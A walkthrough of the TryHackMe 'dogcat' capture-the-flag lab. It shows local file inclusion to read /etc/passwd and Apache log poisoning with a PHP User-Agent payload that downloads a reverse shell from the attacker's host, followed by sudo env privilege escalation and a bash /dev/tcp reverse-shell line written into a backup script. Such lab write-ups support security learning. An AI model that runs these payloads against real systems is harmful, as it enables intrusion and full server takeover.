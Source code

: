 ```yaml
---
published: true
title: Dogcat - TryHackMe Walkthrough
category: Writeup
image: 'https://imgur.com/BarfSU7.png'
author: F3dai
---
```

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats! This is a TryHackMe box. To access this you must sign up to [https://tryhackme.com/](https://tryhackme.com/).

**URL:** [dogcat](https://www.tryhackme.com/room/dogcat)

**Difficulty:** Medium

**Author:** jammy

### Enumeration

We are given the IP 10.10.0.15. Run an nmap scan with the following command:

<pre>nmap -p- -A -o portscan 10.10.0.15</pre>

These are the open ports:

<pre>PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
</pre>

The usual ports are open - ssh and http.

I'll open up port 80 on my browser:

![port 80](https://imgur.com/P78vvmt.png)

This website has a basic function to display either a dog or a cat depending on the button the user clicks. I'd like to investigate how these images are displayed on the website.

The url changes from ?view=cat to ?view=dog. I removed the ?view= and appended .php and this was the result: 

<pre>http://10.10.0.15/dog.php</pre>

![dog.php](https://imgur.com/kw2VGiH.png)

I try testing some random inputs out and I get an error message:

![error](https://imgur.com/klKhov0.png)

Therefore, it's safe to say that ?view= runs an "include" on the parameter for dog and cat, and **appends .php**. 

Since the input needs "dog" or "cat", I will try using the following url to see if I can view the /etc/passwd file on the system:

<pre>http://10.10.0.15/?view=dog../../../../../etc/passwd</pre>

But the following results show it is still trying to append the .php:

![error php](https://imgur.com/klKhov0.png)

<pre>include(dog../../../../../etc/passwd.php): failed to open stream"</pre>

I am not very familiar with php so I researched if there was a way to include a file without the file extension. The trick is to add "&ext=" at the end of the url. This is the new URL which should also view the /etc/passwd file with no .php file extension:

<pre>10.10.0.15/?view=dog../../../../../etc/passwd&ext=</pre>

![etc passwd](https://imgur.com/PDm0jrF.png)

You can view the page source to find the formatted text:

<pre>!root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin</pre>

Now that we can successfully execute a [local file inclusion](https://owasp.org/www-community/vulnerabilities/PHP_File_Inclusion) vulnerability, we can try to get a reverse shell by **log poisoning**. I have done this on a CTF challenge recently and found this article very useful:

[Log Poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

For more information on Log poisoning, here is an OWASP article:

[OWASP Log Poisoning](https://owasp.org/www-community/attacks/Log_Injection)

Let's try and open the access.log file using this LFI vulnerability.

<pre>http://10.10.0.15/?view=dog../../../../../var/log/apache2/access.log&ext=</pre>

This screenshot shows the page source, you can see the log shows some of the times the dog or cat has been requested:

![log](https://imgur.com/wENytd2.png)

We need to **intercept** the data to add our own code in the access log. Use burp suite to capture the request:

![burp](https://imgur.com/HhCALR2.png)

The above request was intercepted. The User-Agent field will need to be changed to our php code so it can download our own file. 

Let's firstly create a **php reverse shell** on our local machine so we can include this file. Kali Linux has a set of pre-made reverse shells. Copy the php reverse shell file to the current directory:

<pre>cp /usr/share/webshells/php/php-reverse-shell.php .</pre>

Change the host and port information in the file:

![edit](https://imgur.com/2Xa0MWp.png)

Now create a simple HTTP server with the following command:

<pre>python -m SimpleHTTPServer 9090</pre>

This will allow us to transfer the file to the victim. 

![http](https://imgur.com/J8rbwd3.png)

Now we can add the following command to our intercepted HTTP request using the php reverse shell we just created:

<pre>&lt;?php file_put_contents('shell.php', file_get_contents('http://10.9.6.63:9090/php-reverse-shell.php'))?&gt;</pre>

<?php file_put_contents('shell.php', file_get_contents('http://10.9.6.63:9090/php-reverse-shell.php'))?>

![burp request modified](https://imgur.com/wYiso6h.png)

For reference, this was the request I was forwarding on burp suite:

<pre>GET /?view=dog../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: 10.10.235.173
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://10.9.6.63:9090/php-reverse-shell.php'))?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1</pre>

Once this was done, I had a confirmation of a download from the simple HTTP server on my local machine:

<pre>10.10.235.173 - - [06/Jun/2020 08:15:48] "GET /php-reverse-shell.php HTTP/1.0" 200 -</pre>

When you forward this request, the php code will create a file called "shell.php" which, when visited, will create a connection on port 4444. Let's set up a netcat listener on port 4444:

<pre>netcat -nvlp 4444</pre>

Go to /shell.php or whatever you named the file in php code:

![rev shell](https://imgur.com/WRVfreG.png)

We are logged in as **www-data**.

## Privilege Escalation

Check the sudo rights:

<pre>sudo -l</pre>

![rights](https://imgur.com/EveIViV.png)

Great, there is a very easy way to exploit the /env.

I find this article very useful when trying to exploit sudo rights:

[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)

<pre>sudo env /bin/bash</pre>

We have root shell. One of the flags is in the /root directory:

![flag](https://imgur.com/vnUkWG6.png)

Another flag is in the /var/www directory:

![flag](https://imgur.com/TQRFtSI.png)

And finally, the other flag is in the actual web directory:

![flag](https://imgur.com/9OaDcef.png)

These flags are presented in reverse order - I usually just aim to own the system, it's better practice to record the flags at each step.

## Last flag

Finally, there is still one more flag - I checked the /opt/backups which had a script called backup.sh.

I added this command to the file:

<pre>echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/10.9.6.63/5555 0>&1" >> backup.sh</pre>

I set up my netcat listener on 5555

<pre>netcat -nvlp 5555</pre>

Execute the script and get the reverse shell again.

<pre>./backup.sh</pre>

![rev shell](https://i.imgur.com/XEpsJPG.png)

And the final flag has been found:

![final](https://i.imgur.com/YB68YRa.png)
